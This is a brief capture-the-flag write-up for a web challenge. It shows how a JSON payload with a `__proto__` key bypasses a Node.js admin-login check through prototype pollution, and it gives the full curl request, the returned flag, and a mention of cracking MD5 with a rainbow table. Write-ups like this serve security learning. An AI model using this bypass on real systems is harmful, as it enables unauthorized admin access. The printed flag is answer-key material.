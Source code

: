 # Login Please

* Round: 26 (2022/09)
* Category: Web
* Points: 75
* Solves: 27

## Description

Login as admin to get flag, so easy right?

## Solution

You can send a json with `__proto__` to bypass the `username=admin` check, and crack md5 by using online rainbow table to get flag. It works because `req.body` have null prototype while the `{}` in `Object.assign` doesn't.

```sh
> curl http://puzzler7.imaginaryctf.org:5001/login -H 'Content-Type: application/json' --data '{"password":"admin","__proto__":{"username":"admin"}}'
Welcome admin! The flag is ictf{omg_js_why_are_you_doing_this_to_me}
```
